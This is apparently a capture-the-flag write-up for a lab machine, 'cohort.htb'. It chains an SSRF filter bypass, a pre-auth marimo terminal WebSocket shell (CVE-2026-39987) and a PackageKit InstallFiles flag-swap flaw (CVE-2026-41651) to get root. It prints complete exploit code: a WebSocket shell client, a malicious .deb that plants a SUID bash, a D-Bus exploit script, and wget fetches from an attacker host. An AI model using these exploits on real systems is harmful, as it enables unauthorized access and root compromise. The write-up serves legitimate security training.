


## Table of Contents
1. [Reconnaissance](#reconnaissance)
2. [Initial Access](#initial-access)
3. [Flag (user.txt)](#flag-usertxt)
4. [Privilege Escalation to Root](#privilege-escalation-to-root)

---

## Reconnaissance

I started with an Nmap scan to enumerate open ports and services.

```bash
$ sudo nmap -sC -sV -Pn -n <TARGET_IP>
```

**Results:**

| Port | State | Service | Version |
|------|-------|---------|---------|
| 22/tcp | open | ssh | OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 |
| 80/tcp | open | http | nginx 1.24.0 (Ubuntu) |
| 443/tcp | open | ssl/http | nginx 1.24.0 (Ubuntu) |

The TLS certificate on port 443 revealed the domain name (`CN=cohort.htb`, SAN `*.cohort.htb`), so I added it to `/etc/hosts`:

```bash
$ cat /etc/hosts
<TARGET_IP>   cohort.htb
```

### Web Enumeration

Browsing to `https://cohort.htb/` showed a marketing site for **Cohort Analytics**, a "retention intelligence" company.


File and directory fuzzing revealed a single interesting page — `portal.html`:

```bash
$ ffuf -u https://cohort.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-files.txt -fs 908

portal.html             [Status: 200, Size: 907, Words: 64, Lines: 23, Duration: 388ms]
```

Virtual host fuzzing against the certificate's wildcard SAN came back empty:

```bash
$ ffuf -u https://<TARGET_IP>/ -H "Host: FUZZ.cohort.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fc 301

:: Progress: [4989/4989] :: Job [1/1] :: 87 req/sec :: Duration: [0:00:52] :: Errors: 0 ::
```

API endpoint fuzzing found only a health endpoint. All other paths returned a uniform `405`, suggesting a catch-all route:

```bash
$ ffuf -u https://cohort.htb/api/FUZZ -X POST -H 'Content-Type: application/json' -d '{}' \
  -w /usr/share/seclists/Discovery/Web-Content/common.txt -mc 200,201,400,401,403,404,405,422,500 -fs 38

health                  [Status: 200, Size: 42, Words: 4, Lines: 1, Duration: 414ms]
```

The real functionality was in `portal.html` — a "Client Insights" page that registers and validates a report source URL.



---

## Initial Access

<!--more-->

### Discovery — URL Validation Feature

The portal page submits a URL and an expected format to `POST /api/validate`. The backend then fetches that URL **server-side**. I confirmed this by submitting a URL pointing at my own machine and watching the incoming request on my listener:

**Request:**

```bash
$ curl -sk https://cohort.htb/api/validate \
  -H 'Content-Type: application/json' \
  -d '{"url":"http://<ATTACKER_IP>:8000","format":"csv"}'
```

**My listener:**

```bash
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.X.X - - [03/Aug/2026 03:37:18] "GET / HTTP/1.1" 200 -
```

The fetch originates from the target — this is a **Server-Side Request Forgery (SSRF)** primitive. I also tested for command injection in the URL parameter (`;ping -c 3 <ATTACKER_IP>`, `$(...)`, backticks), but the payloads were requested as literal URL paths — the URL is passed to an HTTP library, not a shell.

### Mapping the Validator's Behavior

The validator reflects back the status code, content type, and a body preview of whatever it fetches:

```json
{"ok": true, "fetched_status": 404, "content_type": "text/html;charset=utf-8",
 "preview": "<!DOCTYPE HTML>\n<html lang=\"en\">...", "message": "Source responded with an error status."}
```

This makes it a full **read primitive** — I can request internal URLs and read the responses. However, pointing it at loopback showed there was a filter:

```json
{"ok": false, "message": "Internal or loopback addresses are not permitted."}
```

Other useful observations from probing:

- Only `http`/`https` schemes are allowed: `{"ok": false, "message": "Only http and https sources are supported."}`
- Raw Python socket errors are leaked (`[Errno 111] Connection refused`, `[Errno -2] Name or service not known`, `timed out`), revealing a Python backend and giving a clean port-state oracle.
- Redirect targets are **not** re-validated (a 302 from my server to `http://127.0.0.1/` returned the Cohort home page).

### Bypassing the Internal Address Filter

The filter turned out to be a simple string blacklist. It blocked the literal strings `127.0.0.1`, `localhost`, and `::1` — but not any of the many alternative notations for loopback:

```bash
[*] Testing http://0:80/ => {"ok": true, "fetched_status": 200, ...
[*] Testing http://0.0.0.0:80/ => {"ok": true, "fetched_status": 200, ...
[*] Testing http://0x7f.0x0.0x0.0x1/ => {"ok": true, "fetched_status": 200, ...
[*] Testing http://0177.0.0.1/ => {"ok": true, "fetched_status": 200, ...
[*] Testing http://2130706433/ => {"ok": true, "fetched_status": 200, ...
[*] Testing http://127.1/ => {"ok": true, "fetched_status": 200, ...
[*] Testing http://[::1]/ => {"ok": false, "message": "Internal or loopback addresses are not permitted."}
[*] Testing http://[::ffff:127.0.0.1]/ => {"ok": true, "fetched_status": 200, ...
```

**Key Finding:** `http://127.1/` bypasses the filter completely — the OS resolves it to `127.0.0.1`, but the string check never matches. From this point I used `127.1` for all internal requests.

### Enumerating Internal Services via SSRF

Using the bypass, I swept common ports on loopback through the validator:

```bash
for p in 21 22 25 80 443 3000 5000 8000 8080 8888 9000; do
  curl -sk --max-time 4 https://cohort.htb/api/validate \
    -H 'Content-Type: application/json' \
    -d "{\"url\":\"http://127.1:$p/\",\"format\":\"json\"}"
done
```

**Results (interesting ports only):**

| Port | Result |
|------|--------|
| 80 | `200` — nginx (public site) |
| 443 | `400` — "The plain HTTP request was sent to HTTPS port" |
| 22 | connects, but "Could not validate the source" (SSH banner, not a valid export) |
| **5000** | `405` — `{"ok": false, "message": "Method not allowed."}` (JSON API) |
| **8888** | `200` — **unknown web application** |

Port 5000 turned out to be the backend API itself (`cohort-insights`); its GET-accessible routes were limited to health checks, and everything else returned `405` (POST-only routes are invisible through a GET-only SSRF):

```json
// http://127.1:5000/v1/health
{"ok": true, "service": "cohort-insights"}
```

Port 8888 was far more interesting — a password-protected **marimo** notebook workspace:

```json
// http://127.1:8888/
"<title>marimo</title> ... <form method=\"POST\" action=\"/auth/login\"> ...
 <label for=\"password\">Access Token / Password</label>"
```

### Fingerprinting the Internal Services

I enumerated both internal services through the SSRF:

**Port 8888 (marimo):**

```bash
# /api/version — unauthenticated version disclosure
{"ok": true, "fetched_status": 200, "content_type": "text/plain; charset=utf-8",
 "preview": "0.20.4", "message": "Source reachable."}

# /api/status and /api/usage — authentication enforced
{"ok": true, "fetched_status": 401, "content_type": "application/json",
 "preview": "{\"detail\":\"Authorization header required\"}"}
```

**Key Finding:** marimo version **0.20.4**.

I also checked the frontend JavaScript. `app.js` was obfuscated (obfuscator.io-style string array), so I deobfuscated it with `webcrack`:

```bash
$ curl -sk https://cohort.htb/assets/app.js | js-beautify > app_beautified.js
$ webcrack app_beautified.js -o deobfuscated_app
```

The deobfuscated code confirmed the frontend only calls `/api/validate`, and that the supported formats are `csv`, `json`, `ndjson`, and `parquet`. The portal copy noted: *"Validated sources are queued for reconciliation... Reconciliation is a separate, scheduled step."* — consistent with an internal analyst workspace (marimo) processing the data.

### The Hidden vhost — nginx Status Page

While poking at the internal nginx instance, I found a status endpoint on loopback port 80:

```bash
$ curl -sk https://cohort.htb/api/validate \
  -H 'Content-Type: application/json' \
  -d '{"url":"http://127.1/status","format":"json"}'
```

```json
{"ok": true, "fetched_status": 200, "content_type": "application/json", "preview": "{\"service\":\"cohort-edge\",\"status\":\"ok\",\"generated_by\":\"nginx\",\"upstreams\":[{\"name\":\"marketing\",\"host\":\"cohort.htb\",\"root\":\"/var/www/cohort\"},{\"name\":\"insights-api\",\"host\":\"cohort.htb\",\"path\":\"/api/\",\"target\":\"127.0.0.1:5000\"},{\"name\":\"notebooks\",\"host\":\"nb-1be3782a8afd3ad5.cohort.htb\",\"target\":\"127.0.0.1:8888\",\"note\":\"internal analyst workspace, not for external use\"}]}", "message": "Source reachable."}
```

**Critical Finding:** nginx routes a hidden virtual host — `nb-1be3782a8afd3ad5.cohort.htb` — directly to the marimo instance on `127.0.0.1:8888`. This vhost is reachable from the **public** 443 listener simply by sending the right `Host` header/SNI. My earlier vhost fuzzing missed it because the subdomain contains a random hash.

This means the marimo workspace — previously only reachable through the limited GET-only SSRF — is directly accessible over HTTPS, including **WebSocket** connections.

### Exploitation — CVE-2026-39987 (marimo Pre-Auth Terminal RCE)

marimo `0.20.4` is vulnerable to **CVE-2026-39987**: the terminal WebSocket endpoint `/terminal/ws` never calls `validate_auth()` (unlike the main `/ws` endpoint, which does). The auth middleware only marks the connection as unauthenticated — it does not reject it — so `/terminal/ws` accepts the handshake and spawns a full PTY shell with **no credentials required**. Fixed in marimo `0.23.0`.

#### Steps:

1. Add the hidden vhost to `/etc/hosts`, pointing at the target:

```bash
$ cat /etc/hosts
<TARGET_IP>   cohort.htb nb-1be3782a8afd3ad5.cohort.htb
```

2. Verify the vhost routes to marimo:

```bash
$ curl -sk https://nb-1be3782a8afd3ad5.cohort.htb/api/version
0.20.4
```

3. Connect to the unauthenticated terminal WebSocket (`shell.py`):

```python
import ssl, threading, websocket

host   = "nb-1be3782a8afd3ad5.cohort.htb"
ws_url = f"wss://{host}/terminal/ws"

def recv_loop():
    while True:
        try:
            print(ws.recv(), end="", flush=True)
        except Exception:
            print("\n[!] disconnected"); break

ws = websocket.create_connection(
    ws_url,
    origin=f"https://{host}",
    sslopt={"cert_reqs": ssl.CERT_NONE},
    timeout=8,
)
print("[+] connected — pre-auth PTY shell")
threading.Thread(target=recv_loop, daemon=True).start()
while True:
    cmd = input()
    if cmd.strip() == "exit": break
    ws.send(cmd + "\r")
ws.close()
```

```bash
$ pip install websocket-client
$ python3 shell.py
```

The WebSocket handshake was accepted without any authentication, dropping me straight into an interactive PTY shell on the target as the `marimo` user.



---

## Flag (user.txt)

```bash
marimo@cohort:~$ cat user.txt
<EVIDENCE-user.txt flag value>
```

---

## Privilege Escalation to Root

### Enumeration as marimo

After getting the shell, I transferred `linenum.sh` onto the target and ran it for a full local enumeration:

```bash
marimo@cohort:~$ wget http://<ATTACKER_IP>:8003/linenum.sh
marimo@cohort:~$ chmod +x linenum.sh && ./linenum.sh
```

**Key findings from the enumeration output:**

**System Info:**
- Ubuntu 24.04.4 LTS (Noble Numbat)
- Kernel: 6.8.0-136-generic — fully patched, no public exploit

**Users:** besides `root`, two service accounts exist — `insights` (runs the API on port 5000) and `marimo` (runs the notebook workspace on 8888).

**Interesting processes:**

```
root      1534  /opt/sysmon/sysmon -i /opt/sysmon/config.xml -service
insights  1632  /usr/bin/python3 /opt/cohort-insights/insights_api.py
marimo    1633  /opt/marimo/venv/bin/python3 .../marimo edit /home/marimo/notebooks/retention.py \
                --headless --host 127.0.0.1 -p 8888 --token --token-password YKQ6iPyO5kusNx0BpVAPfjP5 \
                --skip-update-check --no-sandbox
```

Side note: the marimo web UI token (`YKQ6iPyO5kusNx0BpVAPfjP5`) is visible directly in the process list. That was the "intended" login for the notebook workspace — made irrelevant by the pre-auth terminal WebSocket.

**Standard privilege escalation checks — all dead ends:**

- `sudo -l` → requires a password I don't have
- SUID binaries → stock Ubuntu only (`sudo`, `su`, `mount`, `passwd`, ...)
- capabilities → nothing usable
- cron jobs / systemd timers → stock
- `/etc/sudoers.d/` → nothing readable
- `/opt/sysmon` (custom root binary) → `Permission denied` — the directory is root-only by design, so it's a decoy, not the path

**Key Finding:** enumerating installed packages revealed **PackageKit 1.2.8-2ubuntu1.2**, with `dbus-send`, `dpkg-deb`, and `python3-dbus` all present on the box, and no custom polkit rules:

```bash
marimo@cohort:~$ dpkg-query -W -f='${Version}\n' packagekit
1.2.8-2ubuntu1.2
marimo@cohort:~$ systemctl status packagekit | head -3
○ packagekit.service - PackageKit Daemon
     Loaded: loaded (/usr/lib/systemd/system/packagekit.service; static)
     Active: inactive (dead)          # D-Bus activated — starts on demand
marimo@cohort:~$ pkaction | grep -i packagekit
org.freedesktop.packagekit.package-install
org.freedesktop.packagekit.package-install-untrusted
...
```

### The Vulnerability — CVE-2026-41651 ("Pack2TheRoot")

PackageKit versions **1.0.2 through 1.3.4** contain a TOCTOU (time-of-check/time-of-use) flaw in the `InstallFiles()` D-Bus method, and `1.2.8-2ubuntu1.2` is in range. The daemon runs as **root** and authorizes package operations through polkit — but the authorization decision depends on the transaction's *flags*, and those flags can be swapped after the check:

1. Calling `InstallFiles()` with the **`SIMULATE` flag** skips the polkit authorization entirely — a simulation "can't hurt anything," so PackageKit queues the transaction and schedules an idle callback to run it, no password needed.
2. **The bug:** a second `InstallFiles()` call on the *same* transaction **unconditionally overwrites the cached flags** — even though the transaction is already queued.
3. So: fire `InstallFiles(SIMULATE)` and then immediately `InstallFiles(NONE, evil.deb)` on the same transaction. Both D-Bus messages are dispatched **before** the idle callback runs (GLib gives D-Bus dispatch higher priority than idle sources), which makes the overwrite land deterministically — this is not a real timing race.
4. The transaction now executes with flags `NONE` — a **real installation, as root, of an unsigned local .deb**. The package's `postinst` maintainer script runs with root privileges.

Since my shell has no logind session or seat, every polkit "active session" check fails for me — the `SIMULATE` bypass is exactly what makes this exploitable from an unprivileged webshell-like position.

### Exploitation

#### Step 1: Build the malicious .deb

The payload is a minimal Debian package whose `postinst` script copies `bash` and sets the SUID bit:

```bash
mkdir -p /tmp/evil/DEBIAN

cat > /tmp/evil/DEBIAN/control <<'EOF'
Package: pwnkit-deb
Version: 1.0
Architecture: amd64
Maintainer: x
Description: x
EOF

cat > /tmp/evil/DEBIAN/postinst <<'EOF'
#!/bin/bash
cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash
EOF
chmod 755 /tmp/evil/DEBIAN/postinst

dpkg-deb --build /tmp/evil /tmp/evil.deb
```

#### Step 2: The exploit script

Two implementation details mattered here, both found by debugging failed attempts:

- The `transaction_flags` parameter on this PackageKit build is **uint32** — my first attempts via `busctl` sent uint64 and were rejected with `Too many parameters for signature`.
- The two calls must arrive **back-to-back on the same connection**. Firing them as separate synchronous shell commands gives the idle callback time to dispatch the transaction (as a harmless simulation) before the overwrite arrives. Since `python3-dbus` is installed on the target, the reliable exploit fires both calls **asynchronously from one process**.

Final exploit (`get_root3.sh`):

```bash
#!/bin/bash
set -u
DEB=/tmp/evil.deb
ROOTBASH=/tmp/rootbash
ATTEMPTS=20

cat > /tmp/pk_exploit.py <<'PYEOF'
import dbus
from dbus.mainloop.glib import DBusGMainLoop
from gi.repository import GLib

DEB = "/tmp/evil.deb"
SIMULATE = 0x4

DBusGMainLoop(set_as_default=True)
bus = dbus.SystemBus()
pk  = bus.get_object("org.freedesktop.PackageKit", "/org/freedesktop/PackageKit")
tid = pk.CreateTransaction(dbus_interface="org.freedesktop.PackageKit")
txn = bus.get_object("org.freedesktop.PackageKit", tid)
iface = dbus.Interface(txn, "org.freedesktop.PackageKit.Transaction")

errors = []
def rh(*a): pass
def eh(e): errors.append(str(e))

loop = GLib.MainLoop()
# both calls async — they land in the daemon's queue back-to-back,
# before the idle callback can ever dispatch the transaction
iface.InstallFiles(dbus.UInt32(SIMULATE), [DEB], reply_handler=rh, error_handler=eh)
iface.InstallFiles(dbus.UInt32(0),        [DEB], reply_handler=rh, error_handler=eh)
GLib.timeout_add(4000, loop.quit)
loop.run()

for e in errors:
    print("ERR:", e)
PYEOF

rm -f "$ROOTBASH"
for i in $(seq 1 "$ATTEMPTS"); do
    echo "  -> attempt $i"
    python3 /tmp/pk_exploit.py
    sleep 3
    [ -f "$ROOTBASH" ] && break
done

if [ -f "$ROOTBASH" ]; then
    echo "[+] SUCCESS:"
    ls -la "$ROOTBASH"
    "$ROOTBASH" -p
else
    echo "[-] failed"
fi
```

#### Step 3: Execute and collect root

The exploit worked on the first attempt:

```bash
marimo@cohort:~$ ./get_root3.sh
[+] payload: /tmp/evil.deb
  -> attempt 1
[+] SUCCESS:
-rwsr-xr-x 1 root root 1446024 Aug  5 07:32 /tmp/rootbash
rootbash-5.2# id
uid=1000(marimo) gid=1000(marimo) euid=0(root) groups=1000(marimo)
```

PackageKit installed the malicious .deb as root, the `postinst` created a SUID copy of bash, and running it with `-p` (preserve privileges) gave an effective root shell.

<EVIDENCE-root shell — id showing euid=0 and root.txt>

### Root Flag

```bash
rootbash-5.2# cat /root/root.txt
aaa95a5577b
```

---

*Writeup by Mikias*
                     